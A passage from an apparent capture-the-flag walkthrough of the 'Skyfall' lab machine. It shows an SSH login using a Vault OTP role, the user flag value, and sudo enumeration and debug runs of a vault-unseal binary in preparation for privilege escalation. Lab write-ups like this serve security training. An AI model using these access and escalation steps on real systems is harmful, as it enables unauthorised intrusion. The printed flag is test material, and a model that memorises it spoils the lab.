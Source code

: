 2. Use Vault to automatically log in:

> [!Note]
>
> `sshpass` needs to be installed on Kali.
>
> Otherwise, Vault will warn about `sshpass` and just display the OTP to be entered manually

```console
root@kali:~# vault ssh -role dev_otp_key_role -mode OTP -strict-host-key-checking=no askyy@10.10.11.254
Warning: Permanently added '10.10.11.254' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Thu Jul 18 14:39:55 2024 from 10.10.14.76
askyy@skyfall:~$ ls -lR
.:
total 4
-rw-r----- 1 root askyy 33 Jul 17 19:53 user.txt
askyy@skyfall:~$ cat user.txt
a401eefac043d0f7f9ac55a8a786621f
```

## 3. Privilege Escalation

Listing `sudo` rights reveal user `askyy` can execute `/root/vault/vault-unseal`

```console
askyy@skyfall:~$ sudo -l
Matching Defaults entries for askyy on skyfall:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User askyy may run the following commands on skyfall:
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal ^-c /etc/vault-unseal.yaml -[vhd]+$
    (ALL : ALL) NOPASSWD: /root/vault/vault-unseal -c /etc/vault-unseal.yaml
askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -h
Usage:
  vault-unseal [OPTIONS]

Application Options:
  -v, --verbose        enable verbose output
  -d, --debug          enable debugging output to file (extra logging)
  -c, --config=PATH    path to configuration file

Help Options:
  -h, --help           Show this help message

askyy@skyfall:~$ sudo /root/vault/vault-unseal -c /etc/vault-unseal.yaml -vd
[+] Reading: /etc/vault-unseal.yaml
[-] Security Risk!
[+] Found Vault node: http://prd23-vault-internal.skyfall.htb
[>] Check interval: 5s
[>] Max checks: 5
```